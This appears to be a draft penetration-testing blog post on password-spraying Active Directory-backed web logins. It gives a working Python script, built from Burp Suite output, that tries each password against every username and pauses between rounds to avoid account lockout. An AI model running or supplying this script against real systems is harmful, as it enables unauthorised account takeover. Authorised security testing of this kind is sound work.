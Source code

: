 ```yaml
---
published: false
---
```

## Password Spraying AD Authenticated Websites with Python and Burp Suite

I frequently use the Intruder tab in Burp Suite Pro to password spray websites which use Active Directory authentication. One of the problems of using Burp Suite is that there doesn't seem to be a way to avoid lockout when using a long password list. Frequently I don't get a hit on valid password on the first try with Season/Year stuff like "Winter2018!" and need to run through a list of 51 common AD passwords that I have in a file. Sure, I can paste in a list of three or four passwords (depending on my client's lockout policy), but then I have to wait X minutes and then replace those passwords with three of four more, track the time between password spray runs, etc. That's a manual process, and I'd prefer something that I can setup and just let it run to completion.

This process is going to require the Pro version of Burp Suite because you'll need to install an extension from the BApp store. In Burp Suite, install the "Copy As Python-Requests" extension. Next, proxy an authentication request to the website through Burp with Intercept on, and when it pauses on the request, right click and choose "Copy as requests". If you paste the clipboard to your editor you'll notice that each line starts with "burp0".

In the following code, you'll notice where I have placed those "burp0" lines. Paste them in to your code editor at the bottom, the cut/paste each line over the related line in this script. In the line that begins with "burp0_data", you'll need to replace the user name and password that you entered on the web page with "username" and "password" as shown below.

Once you've updated the script with your data copied using the "Copy As Python-Requests" extension, run it using the parameters shown in the usage variable. Although the script outputs to CSV which can be sorted based on content length (sort -k4 -n -t, output.csv) or opened and sorted with Gnumeric or Excel, an easier way to sort the response headers may be to proxy the requests through Burp Suite and sort them there. An easy way to proxy through Burp without having to modify the script is to set an environmental variable: export HTTPS_PROXY=“http://127.0.0.1:8080”

The script also prints timestamps to the screen which is useful for those times that you get blamed for locking out users. I believe in logging everything, and this has saved my reputation more than once when I was blamed for account lockouts which ended up being caused by something in the clien't environment.

```python
import requests
import sys
import time
from datetime import datetime

usage = "usage: python3 passwordSpray.py [/path/to/usernames.file] [/path/to/passwords.file] [minutes between each password loop] [output filename (csv)]"
if len(sys.argv) != 5:
    sys.exit(usage)
usernames = [line.rstrip('\n') for line in open(sys.argv[1])]
passwords = [line.rstrip('\n') for line in open(sys.argv[2])]
sleep_time = int(sys.argv[3]) * 60
report_header = "Username,Password,ResponseCode,ResponseLength,Redirects\n"
with open(sys.argv[4], 'w') as csvfile:
    csvfile.write(report_header)

burp0_url = "https://[redacted]:443/j_security_check"
burp0_cookies = {"redacted"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://[redacted]/j_security_check", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

for password in passwords:
    report_output = []
    for username in usernames:
        burp0_data={"j_username": username, "j_password": password, "browserLocale": "en_us", "domainName": "trust", "AUTHRULE_NAME": "ADAuthenticator", "buildNum": "100310", "clearCacheBuildNum": "100148"}
        request = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        report_output.append(f'{username},{password},{request.status_code},{len(request.content)},{len(request.history)}')
    with open(sys.argv[4], 'a', newline='') as csvfile:
        csvfile.write('\n'.join(report_output))
    print("Completed spraying with password: {}. Time: {}".format(password, datetime.now().time()))
    print("Sleeping for {} minutes".format(sys.argv[3]))
    time.sleep(sleep_time)
```
